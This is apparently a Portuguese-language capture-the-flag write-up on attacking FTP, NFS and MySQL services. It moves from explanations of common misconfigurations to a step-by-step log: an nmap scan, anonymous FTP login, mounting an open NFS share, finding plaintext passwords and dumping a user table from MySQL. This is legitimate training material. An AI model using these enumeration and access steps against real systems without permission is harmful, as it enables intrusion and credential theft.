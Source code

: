 # _**Contexto de aplicações web**_
Muitos serviços diferentes podem funcionar na internet  
Esses serviços podem ter muitos casos de uso diferentes
Atacar serviços sempre começa com **enumeração**  
Precisamos entender quais serviços estão em execução e onde estão em execução para começar a atacá-los  
Faríamos enumeração usando nmap ou ferramentas de varredura semelhantes  
Um aspecto que facilita nosso trabalho é que os serviços são conhecidos por serem executados em portas específicas  
Cada serviço tem sua própria porta padrão, o que também facilita sua identificação  

Depois de identificar um serviço que está sendo executado em uma porta aberta, podemos pensar em possíveis vetores de ataque  
Abaixo está a maneira mais comum de atacar serviços conhecidos:
* **Explorando configurações incorretas comuns**
* **Usando exploits disponíveis publicamente**

Os serviços geralmente são configurados pela administração do computador e, na maioria das vezes, esses serviços têm configurações padrão fracas  
Outras vezes, usaríamos informações como números de versão e tipo de serviço para procurar exploits públicos  
É uma boa prática sempre começar explorando configurações incorretas  
Se houver exploits públicos para um serviço em execução, não é aconselhável realizar testes destrutivos  

*** 

**Contexto de FTP**  
**FTP é o protocolo de transferência de arquivos**  
O protocolo geralmente roda na porta 21 sobre o protocolo TCP  
FTP é um protocolo bastante antigo que é usado para transferir arquivos  
Um usuário tornaria um arquivo disponível carregando-o no servidor FTP, e outro usuário usaria um cliente FTP para se conectar ao servidor e baixar o arquivo  
Algumas configurações incorretas comuns para FTP incluem:
* **login anônimo**
* **Comunicação em texto simples**
* **Permissões ruins do sistema de arquivos**

Para se conectar a um servidor FTP, você pode usar o comando de linha de comando ftp: ```ftp [ip-address]```

***

**Contexto de NFS**  
NFS é um compartilhamento de arquivos de rede que roda em TCP e UDP nas portas 111 e 2049  
Assim como FTP, NFS é usado para transferir arquivos  
Eles ainda são bem diferentes  
Enquanto FTP usa um modelo _cliente-servidor_ para se comunicar, NFS atua como um _sistema distribuído_  
Isso significa que um usuário pode acessar um compartilhamento em seu próprio sistema de arquivos  
Enquanto o FTP usa nome de usuário e senha para gerenciar autenticação e autorização para arquivos, o NFS usa o sistema de permissão do Linux para gerenciar essas coisas  
Configurações incorretas comuns incluem:
* **Compartilhamentos acessíveis publicamente**
* **Quando as permissões de um arquivo são diferentes, um invasor teria que alterar seu ID de usuário/ID de grupo para corresponder às permissões do arquivo**

O primeiro passo seria enumerar um sistema para verificar se o NFS está em execução  
Uma vez que o NFS esteja em execução, verificaríamos se há compartilhamentos disponíveis  
Isso é feito usando este comando: ```showmount -e [ip_address]```  
Este comando mostra todos os compartilhamentos exportados pelo NFS  
Se este comando gerar algum compartilhamento, você pode tentar montá-lo no seu sistema de arquivos: ```mount ip:/file/path /local/file/path```  
Observe que este comando exigiria permissões **sudo**  

Depois que ele for montado com sucesso, você pode navegar até o local no seu sistema de arquivos e tentar acessar os arquivos  
Após concluir isso, você precisa desmontar o sistema de arquivos usando o comando: ```umount /local/file/path```  

***

**Contexto de MySQL**  
MySQL é um serviço que executa um servidor SQL  
Um servidor SQL é um tipo particular de servidor de banco de dados que usa linguagem de consulta estruturada (SQL) para adicionar e manipular dados  
O MySQL usa TCP e é executado na porta 3306 por padrão  
O SQL não tem nenhuma configuração incorreta comum que permita acesso direto, mas geralmente é usado como parte de uma cadeia de ataque  
Um invasor pode encontrar outras informações e usá-las para comprometer um servidor MySQL  
Se você encontrar um serviço MySQL em execução, tente se conectar ao serviço  
Se conseguir se conectar ao serviço, enumere o banco de dados das seguintes maneiras:
* **Examine bancos de dados**
* **Examine tabelas**
* **Procure informações confidenciais, como senhas e informações de identificação pessoal**

# _**Execução**_
> ```bash
> nmap -p 0-10000 -sV -A -T5 [ip_address]
> ```

<mark>Portas abertas</mark>  
* **21 | ftp (vsftpd 3.0.2) | anonymous login allowed**
* **22 | ssh (openssh 7.4)**
* **111 | rpcbind 2-4**
* **2049 | nfs_acl 3**
* **3306 | mysql 5.7.28**

<mark>Tentativa de login no serviço FTP</mark>
* ftp [ip_address]
* anonymous
* Login successful

<mark>Realizando o download do arquivo file.txt</mark>
* get file.txt
* cat file.txt
* remember to wipe mysql: root | ff912ABD*

<mark>Tentando se conectar em um servidor MySQL na porta 3306 com as credenciais acima</mark>
> ```bash
> mysql -h  [ip_address] -u root -p
> ```
_ERROR 2026 (HY000): TLS/SSL error: Certificate verification failure: The certificate is NOT trusted._

<mark>Tentando uma forma alternativa, verificação de mount na porta 2049</mark>
* showmount -e [ip_address]
* /opt/files *

<mark>Montando em meu diretório</mark>
* mount [ip_address]:/opt/files ../Downloads

<mark>Verificando os arquivos com ```ls```</mark>
* creds.txt

<mark>Verificando o conteúdo de creds.txt com ```cat```</mark>
* the password is securepassword123

<mark>Voltando a uma conexão mysql com esta nova senha</mark>  
_ERROR 1045 (28000): Access denied for user 'root'@'ip-10-9-0-126.eu-west-1.compute.internal' (using password: YES)_

<mark>Buscando informações na Internet, tenta-se novamente com o comando abaixo</mark>
* mysql -h  [ip_address] -u root -p
* ff912ABD*

<mark>Conexão feita. Agora, investigar o banco de dados</mark
* show * databases;
* show tables;
* select * from USERS;
* admin | bestpassword
